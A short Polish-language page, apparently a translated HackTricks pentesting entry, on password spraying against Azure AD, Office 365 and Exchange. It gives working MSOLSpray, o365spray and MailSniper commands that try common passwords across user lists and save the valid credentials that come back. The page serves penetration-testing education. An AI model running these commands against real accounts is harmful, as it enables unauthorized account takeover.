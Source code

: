 # Az - Password Spraying

{{#include ../../../banners/hacktricks-training.md}}

## Password Spray

W **Azure** można to zrobić przeciwko **różnym punktom końcowym API** takim jak Azure AD Graph, Microsoft Graph, Office 365 Reporting webservice itp.

Jednak należy zauważyć, że ta technika jest **bardzo głośna** i Zespół Niebieski może **łatwo ją wykryć**. Co więcej, **wymuszone złożoności haseł** oraz użycie **MFA** mogą sprawić, że ta technika będzie w pewnym sensie bezużyteczna.

Możesz przeprowadzić atak password spray za pomocą [**MSOLSpray**](https://github.com/dafthack/MSOLSpray)
```powershell
. .\MSOLSpray\MSOLSpray.ps1
Invoke-MSOLSpray -UserList .\validemails.txt -Password Welcome2022! -Verbose
```
Lub z [**o365spray**](https://github.com/0xZDH/o365spray)
```bash
python3 o365spray.py --spray -U validemails.txt -p 'Welcome2022!' --count 1 --lockout 1 --domain victim.com
```
Lub z [**MailSniper**](https://github.com/dafthack/MailSniper)
```powershell
#OWA
Invoke-PasswordSprayOWA -ExchHostname mail.domain.com -UserList .\userlist.txt -Password Spring2021 -Threads 15 -OutFile owa-sprayed-creds.txt
#EWS
Invoke-PasswordSprayEWS -ExchHostname mail.domain.com -UserList .\userlist.txt -Password Spring2021 -Threads 15 -OutFile sprayed-ews-creds.txt
#Gmail
Invoke-PasswordSprayGmail -UserList .\userlist.txt -Password Fall2016 -Threads 15 -OutFile gmail-sprayed-creds.txt
```
{{#include ../../../banners/hacktricks-training.md}}
